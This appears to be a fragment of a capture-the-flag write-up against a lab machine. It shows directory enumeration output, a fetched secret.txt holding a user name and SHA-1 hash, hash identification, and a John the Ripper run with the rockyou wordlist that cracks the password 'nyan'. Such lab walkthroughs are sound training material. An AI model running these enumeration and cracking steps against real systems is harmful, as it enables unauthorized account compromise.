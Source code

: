 ```
===============================================================
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/index.html (Status: 200)
/secret.txt (Status: 200)
===============================================================
2020/09/23 21:39:00 Finished
===============================================================
```

- Found: Directory: http://10.10.246.33/secret/
- Found: File: http://10.10.246.33/secret/secret.txt

```
wget -O http://10.10.246.33/secret/secret.txt

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

- Found: Hash: nyan:046385855FC9580393853D8E81F240B66FE9A7B8

```
hashid 046385855FC9580393853D8E81F240B66FE9A7B8

Analyzing '046385855FC9580393853D8E81F240B66FE9A7B8'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
```

```
john nyan.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA1

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
nyan             (?)
1g 0:00:00:01 DONE (2020-09-23 21:44) 0.6024g/s 2994Kp/s 2994Kc/s 2994KC/s nyan042077..nyamwaro
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

- Crack: Hash: 046385855FC9580393853D8E81F240B66FE9A7B8:nyan
